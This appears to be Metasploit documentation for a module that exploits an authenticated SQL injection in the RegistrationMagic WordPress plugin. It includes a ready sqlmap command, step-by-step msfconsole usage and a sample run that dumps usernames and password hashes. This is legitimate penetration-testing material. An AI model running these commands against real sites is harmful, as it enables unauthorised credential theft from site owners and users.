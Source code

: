 ## Vulnerable Application

RegistrationMagic, a WordPress plugin,
prior to 5.0.1.5 is affected by an authenticated SQL injection via the
`task_ids[]` parameter.

The plugin can be downloaded
[here](https://downloads.wordpress.org/plugin/custom-registration-form-builder-with-submission-manager.5.0.1.5.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://<IP>/wp-admin/admin-ajax.php?page=rm_ex_chronos_edit_task&rm_form_id=2' --data="action=rm_chronos_ajax&rm_chronos_ajax_action=duplicate_tasks_batch&task_ids[]=2" -p "task_ids[]" --technique T -T wp_users -C user_login,user_pass --dump --dbms mysql --cookie '<cookie>'
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_registrationmagic_sqli`
4. Do: `set rhosts [ip]`
5. Do: `set username [username]`
6. Do: `set password [password]`
7. Do: `run`
8. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

### USERNAME

The username to login with. Defaults to ``.

### PASSWORD

The password to login with. Defaults to ``.

## Scenarios

### Registration Magic 5.0.1.5 on Wordpress 5.7.5 on Ubuntu 20.04

```
[*] Processing registrationmagic.rb for ERB directives.
resource (registrationmagic.rb)> use auxiliary/scanner/http/wp_registrationmagic_sqli
resource (registrationmagic.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (registrationmagic.rb)> set verbose true
verbose => true
resource (registrationmagic.rb)> set username admin
username => admin
resource (registrationmagic.rb)> set password admin
password => admin
resource (registrationmagic.rb)> run
[*] Checking /wp-content/plugins/custom-registration-form-builder-with-submission-manager/readme.txt
[*] Found version 5.0.1.5 in the plugin
[+] Vulnerable version of RegistrationMagic detected
[*] Using formid of: 74
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(GPc) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) GPc from wp_users limit 3) PfXJX)
[*] {SQLi} Encoded to (select group_concat(GPc) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xc,0)),ifnull(user_pass,repeat(0x24,0))) as binary) GPc from wp_users limit 3) PfXJX)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTHmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

